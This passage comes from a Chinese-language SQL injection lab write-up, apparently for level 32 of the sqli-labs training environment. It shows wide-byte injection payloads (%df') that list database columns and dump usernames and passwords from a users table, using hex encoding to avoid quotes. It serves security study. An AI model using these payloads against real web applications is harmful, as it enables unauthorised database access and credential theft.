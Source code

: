 ```sql
Copy ?id=-1%df' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema=0x7365637572697479 and table_name=0x7573657273--+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less32-宽字节注入.assets/1774310-20201112133009556-2123094608.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201112133009556-2123094608.png)

## 获取目标信息

(https://www.cnblogs.com/linfangnan/p/13963425.html#283454690)

爆出用户名和密码，注意不要使用单引号来闭合字符串，改用十六进制编码。

```sql
Copy ?id=-1%df' UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less32-宽字节注入.assets/1774310-20201112133114198-1425925377.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201112133114198-1425925377.png)
